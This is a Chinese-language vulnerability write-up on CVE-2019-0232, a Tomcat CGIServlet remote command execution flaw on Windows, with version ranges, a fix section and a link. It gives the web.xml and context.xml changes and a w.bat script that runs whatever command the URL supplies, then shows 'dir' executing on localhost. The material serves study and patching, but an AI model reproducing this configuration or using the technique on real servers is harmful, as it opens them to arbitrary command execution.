

### 0x00 简述

漏洞名称：RCE

漏洞编号：CVE-2019-0232 

漏洞影响：上传包含任意代码的文件，并被服务器执行。实际利用较鸡肋

影响平台：Windows且启用了CGIServlet和enableCmdLineArguments参数 

影响版本：Apache Tomcat  7.0.0 - 7.0.93 ；  8.5.0 - 8.5.39 ； 9.0.0.M1 - 9.0.17 

### 0x01 利用

 首先进行CGI相关的配置，在 `conf/web.xml` 中启用CGIServlet： 

```xml
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>enableCmdLineArguments</param-name>
      <param-value>true</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
    <load-on-startup>5</load-on-startup>
</servlet>
```

这里主要的设置是 `enableCmdLineArguments` 和 `executable` 两个选项。 `enableCmdLineArguments` 启用后才会将Url中的参数传递到命令行， `executable` 指定了执行的二进制文件，默认是 `perl`，需要置为空才会执行文件本身。

同样在 `conf/web.xml` 中启用`cgi`的`servlet-mapping`

```
<servlet-mapping>
    <servlet-name>cgi</servlet-name>
    <url-pattern>/cgi-bin/*</url-pattern>
</servlet-mapping>
```

之后修改 `conf/context.xml` 的 添加 `privileged="true"`属性，否则会没有权限

```
<Context privileged="true">

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
    <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="" />
    -->
</Context>
```

然后在 `ROOT\WEB-INF` 下创建 `cgi-bin` 目录, 并在该目录下创建一个 w.bat 文件:

```bat
@echo off
echo Content-Type: text/plain
echo.
set foo=%~1
%foo%
```

配置完成后，启动tomcat，访问 `http://127.0.0.1:8080/cgi-bin/w.bat?dir` ，可以看到命令执行成功。



### 0x02 修复

- 升级
- 不轻易改变默认配置，非要改先搞清楚原理

### 0x03 参考链接

 https://www.freebuf.com/company-information/203128.html 